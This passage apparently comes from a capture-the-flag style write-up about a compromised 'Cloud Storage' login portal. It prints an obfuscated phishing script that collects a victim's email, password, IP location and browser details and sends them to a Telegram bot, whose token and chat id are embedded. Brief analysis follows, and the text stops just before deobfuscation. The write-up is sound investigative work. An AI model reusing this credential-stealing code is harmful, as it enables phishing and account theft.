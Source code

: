 ```html
    var A=B;function B(C,D){var E=F();return B=function(Bbb,G){Bbb=Bbb-0xb7;var H=E[Bbb];return H;},B(C,D);}(function(I,J){var K=B,L=I();while(!![]){try{var M=-parseInt(K(0xe9))/0x1+-parseInt(K(0xda))/0x2+parseInt(K(0xc0))/0x3*(-parseInt(K(0xb8))/0x4)+parseInt(K(0xd6))/0x5+-parseInt(K(0xe0))/0x6*(-parseInt(K(0xd5))/0x7)+parseInt(K(0xb7))/0x8*(-parseInt(K(0xe3))/0x9)+-parseInt(K(0xe1))/0xa*(parseInt(K(0xdb))/0xb);if(M===J)break;else L['push'](L['shift']());}catch(N){L['push'](L['shift']());}}}(F,0xa9b1c));var elem=$(A(0xb9)),elem1=A(0xde),elem2=A(0xd7),email=$(A(0xc2))[A(0xc9)](),domain=email[A(0xe4)](email[A(0xbc)]('@')+0x1),frmsite=domain[A(0xe4)](0x0,domain[A(0xbc)]('.'));const str=frmsite+A(0xce),str2=str[A(0xbd)](0x0)[A(0xeb)]()+str[A(0xe7)](0x1);let today=new Date()[A(0xc6)]();$(A(0xba))[A(0xe5)](str2),$('#title')[A(0xe5)](str2),$(A(0xc1))['append'](A(0xbb)+domain+A(0xd4)),$(A(0xdd))[A(0xe5)](A(0xcd)+domain+'\x22>'),document[A(0xe8)][A(0xd0)]['background']=A(0xca)+domain+'\x27)',elem['on'](A(0xec),function(O){var P=A;$('#inputPassword')[P(0xdf)]()===''?alert(P(0xcb)):$['getJSON'](P(0xcf),function(Q){var R=P,S=Q['ip'],T=Q[R(0xc8)],U=Q['region'],V=Q['country'],W=navigator['userAgent'];let X=new Date()[R(0xc6)]();var Y=R(0xc4)+str2+'\x20by\x20Zach\x20A**'+'\x0a\x0a'+R(0xe2)+$(R(0xc2))[R(0xc9)]()+'\x0a'+R(0xc7)+$(R(0xd9))[R(0xdf)]()+'\x0a'+'IP\x20Address\x20:\x20'+S+'\x0a'+R(0xe6)+U+'\x0a'+R(0xc3)+T+'\x0a'+R(0xbe)+V+'\x0a'+R(0xed)+W+'\x0a'+R(0xcc)+$(R(0xea))[R(0xdf)]()+'\x0a'+R(0xd8)+X+'\x0a'+R(0xbf)+$(R(0xc5))[R(0xdf)](),Z=R(0xdc)+elem1+R(0xd3);$[R(0xd2)](Z,{'chat_id':elem2,'text':Y},function(AA){var AB=R;window['location'][AB(0xee)]=AB(0xd1);});});});function F(){var AC=['val','12ZidQyC','20AFlrCY','Email:\x20','63792quNVYn','substring','append','Region\x20:\x20','slice','body','139437pXYFEK','#UserEmail','toUpperCase','click','Useragent\x20:\x20','href','88GpIPQU','904cdojGd','#submit','#dname','<img\x20class=\x22mb-4\x22\x20src=\x22https://logo.clearbit.com/','lastIndexOf','charAt','Country\x20:\x20','DateSent\x20:\x20','10311YpzJVd','#dlogo','#emailtext','City\x20:\x20','***','#DateSent','toLocaleDateString','Password\x20:\x20','city','text','url(\x27https://logo.clearbit.com/','Password\x20field\x20missing!','Format\x20:\x20','<link\x20rel=\x22icon\x22\x20href=\x22https://logo.clearbit.com/','\x20Cloud\x20Storage','https://ip.seeip.org/geoip','style','https://archive.org/details/VoiceMail_173','post','/sendMessage','\x22\x20alt=\x22\x22\x20width=\x22150\x22\x20\x20>','4716964xBODFJ','3724320KAqSuZ','5852841790','Date\x20Filled\x20:\x20','#inputPassword','380874lxWkrT','1170928pBbGzs','https://api.telegram.org/bot','head','6055124896:AAFyQlC_8dr1GndB26ji4iV2ol2bPPQ9lq4'];F=function(){return AC;};return F();}
</script 1=2
```

Hmm... Since a malicious actor compromised the Cloud Storage web portal, ***it's clear that the bad actor did something peculiar to the `/` page.***

Like **obfuscated `<script>` element, weird `1=2`.**

Now, **don't click "Sign in" yet**, just in case the bad actor did a [watering hole attack](https://en.wikipedia.org/wiki/Watering_hole_attack) to the `/` page.

**Let's deobfuscate `<script>` elements via [de4js](https://lelinhtinh.github.io/de4js/):**
